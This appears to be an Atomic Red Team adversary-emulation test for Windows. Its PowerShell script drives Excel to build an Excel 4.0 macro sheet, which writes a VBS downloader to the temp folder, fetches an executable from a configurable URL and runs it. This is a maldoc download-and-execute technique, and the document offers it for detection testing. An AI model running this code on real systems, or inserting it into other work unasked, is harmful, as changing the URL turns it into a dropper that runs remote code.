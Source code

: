 A note regarding this module. By default, this module will pull the current username from the system and places it into the macro. If
you'd like to utilize the "=GET.WORKSPACE(26)" method, that many maldoc authors use, you will need to ensure that the User Name associated
with Excel matches that of the local system. This username can be found under Files -> Options -> Username

**Supported Platforms:** Windows


**auto_generated_guid:** 4ea1fc97-8a46-4b4e-ba48-af43d2a98052





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| download_url | Download URL | string | https://live.sysinternals.com/procexp.exe|
| uname | Username for pathing | string | $env:Username|


#### Attack Commands: Run with `powershell`! 


```powershell
$fname = "$env:TEMP\atomic_redteam_x4m_exec.vbs"
$fname1 = "$env:TEMP\procexp.exe"
if (Test-Path $fname) {
  Remove-Item $fname
  Remove-Item $fname1
}

$xlApp = New-Object -COMObject "Excel.Application"
$xlApp.Visible = $True
$xlApp.DisplayAlerts = $False
$xlBook = $xlApp.Workbooks.Add()
$sheet = $xlBook.Excel4MacroSheets.Add()

if ("#{uname}" -ne "") {
  $sheet.Cells.Item(1,1) = "#{uname}"
} else {
  $sheet.Cells.Item(1,1) = "=GET.WORKSPACE(26)"
}

$sheet.Cells.Item(2,1) = "procexp.exe"
$sheet.Cells.Item(3,1) = "atomic_redteam_x4m_exec.vbs"
$sheet.Cells.Item(4,1) = "=IF(ISNUMBER(SEARCH(`"64`",GET.WORKSPACE(1))), GOTO(A5),)"
$sheet.Cells.Item(5,1) = "=FOPEN(`"C:\Users\`"&A1&`"\AppData\Local\Temp\`"&A3&`"`", 3)"
$sheet.Cells.Item(6,1) = "=FWRITELN(A5, `"url = `"`"#{download_url}`"`"`")"
$sheet.Cells.Item(7,1) = "=FWRITELN(A5, `"`")"
$sheet.Cells.Item(8,1) = "=FWRITELN(A5, `"Set winHttp = CreateObject(`"`"WinHTTP.WinHTTPrequest.5.1`"`")`")"
$sheet.Cells.Item(9,1) = "=FWRITELN(A5, `"winHttp.Open `"`"GET`"`", url, False`")"
$sheet.Cells.Item(10,1) = "=FWRITELN(A5, `"winHttp.Send`")"
$sheet.Cells.Item(11,1) = "=FWRITELN(A5, `"If winHttp.Status = 200 Then`")"
$sheet.Cells.Item(12,1) = "=FWRITELN(A5, `"Set oStream = CreateObject(`"`"ADODB.Stream`"`")`")"
$sheet.Cells.Item(13,1) = "=FWRITELN(A5, `"oStream.Open`")"
$sheet.Cells.Item(14,1) = "=FWRITELN(A5, `"oStream.Type = 1`")"
$sheet.Cells.Item(15,1) = "=FWRITELN(A5, `"oStream.Write winHttp.responseBody`")"
$sheet.Cells.Item(16,1) = "=FWRITELN(A5, `"oStream.SaveToFile `"`"C:\Users\`"&A1&`"\AppData\Local\Temp\`"&A2&`"`"`", 2`")"
$sheet.Cells.Item(17,1) = "=FWRITELN(A5, `"oStream.Close`")"
$sheet.Cells.Item(18,1) = "=FWRITELN(A5, `"End If`")"
$sheet.Cells.Item(19,1) = "=FCLOSE(A5)"
$sheet.Cells.Item(20,1) = "=EXEC(`"explorer.exe C:\Users\`"&A1&`"\AppData\Local\Temp\`"&A3&`"`")"
```